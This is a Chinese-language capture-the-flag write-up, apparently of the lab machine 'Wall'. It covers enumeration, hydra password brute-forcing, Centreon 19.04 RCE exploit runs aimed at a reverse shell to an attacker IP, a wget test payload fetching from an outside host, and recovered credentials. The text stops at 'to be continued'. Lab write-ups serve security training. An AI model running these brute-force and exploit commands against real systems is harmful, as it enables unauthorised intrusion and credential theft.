 ```yaml
---
title: Wall-rce与绕过waf(上)
categories:
- training
tags:
- training
---
```

参考资料：
- [http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/](http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/)

- [apache Modsecurity waf绕过](https://www.cnblogs.com/rainy-shurun/p/5374789.html)

最近太忙了ORZ，这篇没
## enumeration
22，80

Apache/2.4.29 (Ubuntu) Server 

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/1.PNG)
说明用户名可能是admin

```
cd /usr/share/wordlists
 hydra -l admin -P rockyou.txt -s 80 -f 10.10.10.157 http-get /monitoring

 hydra -l admin -P 3000-pass.txt -s 80 -f 10.10.10.157 http-get /monitoring
 hydra -l panel -P rockyou.txt -s 80 -f 10.10.10.157 http-get /monitoring
 hydra -l aa -P rockyou.txt -s 80 -f 10.10.10.157 http-get /monitoring
```
## ssh
OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/6.PNG)

---
searchsploit -m exploits/linux/remote/45233.py
python 45233.py（type error代码错误）

searchsploit -m exploits/linux/remote/45210.py
python 45210.py (TypeError)

searchsploit -m exploits/linux/remote/45939.py
python 45939.py --port 22 10.10.10.157 root（TypeError: an integer is required）

---
hydra -l admin -P rockyou.txt 10.10.10.157 ssh

## web

### enumeration
dirb http://10.10.10.157 -X .php
存在的目录
http://10.10.10.157/aa.php
http://10.10.10.157/monitoring/
http://10.10.10.157/panel.php
http://10.10.10.157/centreon

nikto -h http://10.10.10.157
GET, POST, OPTIONS, HEAD 

---
未发现目录遍历

10.10.10.157/monitoring/../panel.php

跳转到panel.php

10.10.10.157/monitoring/../../../../../../../../../etc/passwd
无效

---

get改post请求，绕过登陆页面。

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/7.PNG)

searchsploit centreon

searchsploit -m exploitdb/exploits/php/webapps/47069.py
v. 19.04.0

参考资料：[https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/)

[exp下载地址](https://gist.githubusercontent.com/mhaskar/c4255f6cf45b19b8a852c780f50576da/raw/f50ab5b4582986ca595055e53417bc2dfce1838e/centreon-exploit.py)

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/8.PNG)

![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/9.PNG)

`python3.6 47069.py http://10.10.10.157/centreon admin passwd1 10.10.14.10 1330`

执行后报错，于是修改exp。

```
。。。。。。
  poller_soup = BeautifulSoup(poller_html)
Traceback (most recent call last):
  File "47069.py", line 57, in <module>
    poller_token = poller_soup.findAll('input')[24].get("value")
IndexError: list index out of range
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/10.PNG)

poller_token = poller_soup.find('input', {'name': 'centreon_token'}).get('value')

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/11.PNG)

python3 centreon-exploit.py http://10.10.10.157/centreon admin passwd1 IP 8080

反弹shell失败

修改后，无报错的exp地址：[https://github.com/Whale3070/ctf-coding/blob/master/47069.py](https://github.com/Whale3070/ctf-coding/blob/master/47069.py)

## 绕过waf

python3 47069.py http://10.10.10.157/centreon admin password1 10.10.14.18 8081

---
http://10.10.10.157/centreon/Themes/Centreon-2/

![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/12.PNG)
目录遍历漏洞

---
+ http://10.10.10.157/centreon/a.php (CODE:200|SIZE:1)                                                   
+ http://10.10.10.157/centreon/index.php (CODE:200|SIZE:3091)                                            
+ http://10.10.10.157/centreon/main.php (CODE:302|SIZE:0)   
http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1
nagios_bin参数

http://10.10.10.157/centreon/main.get.php?p=60901
http://10.10.10.157/centreon/include/configuration/configGenerate/xml/generateFiles.php

---
测试命令执行是否成功，修改payload为
```
wget http://10.10.14.10:888/1.txt #
```
失败
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/13.PNG)

---

```
hydra -L /usr/share/wordlists/rockyou.txt  -P /usr/share/wordlists/rockyou.txt -V -s 80 

10.10.10.157 http-post-form "/centreon/index.php:useralias=^USER^&password=^PASS^&submitLogin=Connect&centreon_token=d9ab2ad282b929cf8f32486cee14da85:Your credentials are incorrect."

hydra -l centreon  -P /usr/share/wordlists/rockyou.txt -V -s 80 10.10.10.157 http-post-form "/centreon/index.php:useralias=^USER^&password=^PASS^&submitLogin=Connect&centreon_token=d9ab2ad282b929cf8f32486cee14da85:Your credentials are incorrect."

hydra -l admin  -P /usr/share/wordlists/rockyou.txt -V -s 80 10.10.10.157 http-post-form "/centreon/index.php:useralias=^USER^&password=^PASS^&submitLogin=Connect&centreon_token=d9ab2ad282b929cf8f32486cee14da85:Your credentials are incorrect." -t 4

admin/password1
centreon/#1bitch
```

## 存在的漏洞

centreon 19.04 rce
后台弱口令
apache目录遍历

## 根据python exp手动利用漏洞
19.04 版本漏洞
[https://www.cvedetails.com/vulnerability-list/vendor_id-7565/product_id-12778/version_id-303583/Centreon-Centreon-19.04.0.html](https://www.cvedetails.com/vulnerability-list/vendor_id-7565/product_id-12778/version_id-303583/Centreon-Centreon-19.04.0.html)

开启burp，首先访问http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1

![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/17.PNG)

![16](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/16.PNG)
注意图中的testpath

待续